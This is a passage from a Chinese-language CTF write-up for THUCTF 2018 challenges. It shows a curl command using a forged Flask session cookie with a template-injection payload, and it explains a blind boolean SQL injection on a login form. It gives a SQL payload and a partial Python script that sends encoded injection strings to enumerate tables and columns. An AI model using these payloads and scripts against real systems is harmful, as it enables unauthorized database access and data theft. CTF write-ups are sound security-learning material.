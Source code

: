 拿这个 cookie 去访问

```sh
curl --silent --cookie "session=eyJ1c2VybmFtZSI6ImFkbWluIn0.DoqrLA.w4dJudHOddDCmsaopoGwx-b5KJM" "http://flask.thuctf2018.game.redbud.info:8000/welcome?msg=A%20simple%20flask%20application_\{\{session\}\}" | grep THUCTF
```

即得到 `flag`

## wdSimpleSQLv4

此题漏洞在登录的时候没有对用户名 `username` 进行检查，因此可以二进制盲注，在后面 `and` 上一个假设条件（例如：某个字段是以某字符串开头的）。通过登录成功或失败，就能推测出假设条件的真伪，而进一步通过二分策略即可得到具体的结果。
此题先要获取 `information_schema.tables` 中记载的表，发现一张可疑的表 `PIsAukBsoucg`，然后在 `information_schema.columns` 中查找其所含的字段，发现有个可疑的字段 `wUpWAcapJIxP`，然后通过二进制盲注
```sql
... and select(wUpWAcapJIxP)from(PIsAukBsoucg)where(left(wUpWAcapJIxP,...)=binary'...')
```
就能获取 `flag`

```Python
import os
import math
import re

# express str using ()''abcde...z
def trans(s):
    def trans_i(value):
        value1 = value // 16
        vaule2 = value % 16

        ans = "binary(unhex(concat("
        ans += "length('" + "a"*value1 + "')" if value1 < 10 else "'" + chr(ord('a') + value1 - 10) +  "'"
        ans += ","
        ans += "length('" + "a"*vaule2 + "')" if vaule2 < 10 else "'" + chr(ord('a') + vaule2 - 10) +  "'"
        ans += ")))"
        return ans

    return "concat(" + ",".join([trans_i(ord(c)) for c in s]) + ")"

def exist_begin_with(s):
    s = trans(s)
    s = os.popen("curl 'http://wdsimplesqlv4.thuctf2018.game.redbud.info:34445/login' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: http://wdsimplesqlv4.thuctf2018.game.redbud.info:34445' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: http://wdsimplesqlv4.thuctf2018.game.redbud.info:34445/login' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja;q=0.6' -H 'Cookie: _xsrf=2|e4fbf083|ac751f9874875a6dfbd83dcbae638cd1|1537843349; token=\"2|1:0|10:1537843846|5:token|136:ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFhV1FpT2lJMU1rTmZWeUo5LnpvSEpIVkJsZ1VOZXdrWDE0RGozRTBwOHN6blZVbU1PX1VOcGRlTzhpdHc=|1b17779ddbf2464ad255f940e17233c1fa1f0935961f9eaab7b3450b1d48b256\"' --data " + 

        # tabel_name: bigcows, PIsAukBsoucg, users
        # "\"username=shyotest'and(not(''=(select(table_name)from(information_schema.tables)where(TABLE_SCHEMA)=(database())and(left(table_name,length(" + s + "))=" + s + "))))%23"

        # column_name: wUpWAcapJIxP
        #"\"username=shyotest'and(not(''=(select('a')from(information_schema.columns)where(TABLE_SCHEMA)=(database())and(table_name='PIsAukBsoucg')and(left(column_name,length(" + s + "))=" + s + "))))%23"
        
```